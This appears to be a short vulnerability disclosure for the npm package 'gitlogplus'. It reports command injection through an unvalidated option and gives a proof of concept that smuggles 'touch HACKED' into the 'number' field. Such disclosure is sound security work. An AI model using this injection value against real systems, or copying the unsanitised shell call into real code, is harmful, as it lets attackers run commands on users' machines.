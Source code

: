 # Description

The `gitlogplus` module is vulnerable against an `arbitrary command injection` issue which is made possible since some `user-inputs` are executed inside a command which doesn't have validations of any kind.

# POC

1. Create the following PoC file:

```js
// poc.js
var git = require('gitlogplus');
git({repo:'.', number:'eeee; touch HACKED; #'})

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i gitlogplus # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
